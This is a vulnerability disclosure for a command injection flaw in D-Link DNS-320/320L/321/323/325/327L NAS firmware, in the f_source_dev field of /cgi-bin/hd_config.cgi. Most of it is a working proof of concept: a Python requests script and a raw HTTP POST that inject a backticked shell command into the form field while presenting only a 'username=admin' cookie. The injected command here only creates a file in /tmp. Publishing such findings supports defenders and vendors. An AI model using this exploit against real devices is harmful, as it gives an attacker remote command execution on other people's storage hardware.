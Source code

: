 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_Std2R5_2nd_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_source_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 43 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736876772-6d599001-1c4f-4bc3-bbbb-ec626b5a1692.png#averageHue=%23fbfaf9&clientId=u970bf91e-c803-4&from=paste&height=203&id=ude007197&originHeight=203&originWidth=1059&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39578&status=done&style=none&taskId=ubf33f57b-6aae-403c-b2a7-04757840bf1&title=&width=1059)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736871362-fb3ecbbc-3d1f-4927-8708-c37f3be887b8.png#averageHue=%23fefefb&clientId=u970bf91e-c803-4&from=paste&height=121&id=u97c30f42&originHeight=121&originWidth=1231&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23285&status=done&style=none&taskId=ucd4e05ea-a8f7-4039-a216-4370c1eb82b&title=&width=1231)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_Std2R5_2nd_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/0000`&f_file_system=1&f_newly_dev=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_Std2R5_2nd_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/0000`&f_file_system=1&f_newly_dev=1
```

